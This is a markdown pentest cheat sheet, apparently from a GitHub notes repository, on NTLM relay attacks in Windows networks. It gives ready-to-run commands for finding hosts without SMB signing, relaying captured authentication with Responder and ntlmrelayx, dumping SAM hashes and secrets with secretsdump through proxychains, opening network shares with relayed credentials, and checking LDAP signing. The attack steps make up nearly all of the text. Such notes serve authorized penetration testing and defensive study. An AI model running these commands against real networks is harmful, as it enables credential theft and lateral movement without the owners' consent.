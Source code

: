 ## Relaying
### SMB relaying
- Requirement: Only possible to hosts without SMB Signing

#### Check for SMB hosts without SMB signing
```
crackmapexec smb <IP RANGE> --gen-relay-list smb_hosts_nosigning.txt
```

#### Relay requests SMB and dump SAM
- We have to modify the ```/etc/responder/Responder.conf``` file and disable the HTTP and SMB servers (as NTLM relay will be our SMB and HTTP server).
- the ```-d``` flag has now been changed from “Enable answers for NETBIOS domain suffix queries. Answering to domain suffixes will likely break stuff on the network. Default: False” to “Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response. Default: False”. It should also be noted that ```-d``` as it is now CAN have an impact on your client’s network, as you are effectively poisoning the WPAD file over DHCP, which does not always revert back immediately once you stop the attack. It will likely require a reboot.
```
ntlmrelayx.py -tf smb_hosts_nosigning.txt -smb2support
```

#### Relay requests SMB and keep SMB sessions open
- Use the ```socks``` option to be able to use the ```socks``` command to get a nice overview of the relayed attempts. It will also keep the SMB connection open indefinitely. 

```
ntlmrelayx.py -tf smb_hosts_nosigning.txt -socks -smb2support

# Get overview of all relay attempts
ntlmrelayx> socks

# Change socks proxy
sudo vim /etc/proxychains4.conf
socks4 127.0.0.1 1080

# Use proxychains and it will ignore the password value and use the relay credential instead
proxychains python3 secretsdump.py <DOMAIN>/<USER>:IDontCareAboutPassword@<TARGET>

# Also possible to access shares on the network, for example if user is not local admin
proxychains python3 smbclient.py <DOMAIN>/<USER>:IDontCareAboutPassword@<TARGET>
```

### LDAP Relaying
- Requires LDAP signing to be turned off (default)

#### Check LDAP Signing
- https://github.com/zyn3rgy/LdapRelayScan
```
python3 LdapRelayScan.py -method BOTH -dc-ip <IP> -u <USER> -p <PASSWORD>

cme ldap <DC IP> -u <USER> -p <PASSWORD> -M ldap-signing
```
